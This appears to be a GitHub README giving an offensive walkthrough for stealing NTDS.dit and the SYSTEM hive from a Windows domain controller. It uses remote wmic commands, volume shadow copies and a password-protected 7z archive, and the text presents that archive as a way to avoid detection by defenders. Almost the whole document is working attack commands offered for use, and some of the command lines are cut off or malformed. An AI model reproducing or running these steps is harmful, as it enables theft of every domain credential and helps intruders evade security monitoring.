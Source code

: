 # DUMP-NTDS-WITHOUT-PASS

A way to Dump NTDS without password
shell wmic /node: "DC01" /user: "DOMAIN\admin" /password: "cleartextpass" process call create "cmd /c vssadmin list shadows >> c:\log.txt"


query the shadows list, there is a date on it, check if it is recent
they are almost certainly already there. if not, you will have to do it yourself

net start Volume Shadow Copy
shell wmic /node: "DC01" /user: "DOMAIN\admin" /password: "cleartextpass" process call create "cmd /c vssadmin create shadow /for=C: 2>&1"


then in the shadow copy listing find the newest one
Shadow Copy Volume: \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy55
respectively we need the copy number for the following command


shell wmic /node: "DC01" /user: "DOMAIN\admin" /password: "cleartextpass" process call create "cmd /c copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy55\Windows\NTDS\NTDS.dit c:\temp\log\ & copy \\? \"\GLOBALROOT\Device\HarddiskVolumeShadowCopy55\Windows\System32\config\SYSTEM c:\temp\log\ & copy \\\?


ntds.dit / security / system files should be placed in c:\temp\log\
Take the portable console 7z and pack it in the archive with password
Code: [Highlight]

7za.exe a -tzip -mx5 \\DC01\C$\temp\log.zip \\DC01\C$\temp\log -pTOPSECRETPASSWORD


unzip the password protected archive, if you get an error when trying to decrypt the ntds file (the file is corrupted), do the following


Esentutl /p C:\log\ntds.dit


the trick with this method is that we don't actually dump anything, we just download the ntds
so we won't get caught pulling the ntds we pack it in a password protected archive

if you have problems with being caught and kicked off the net after dumping ntds, try this method
you can burn it only if you know the password from the archive, and it is impossible to analyze what exactly you take without knowing the password from the archive

CREDITS: Learners Room @dtob1804
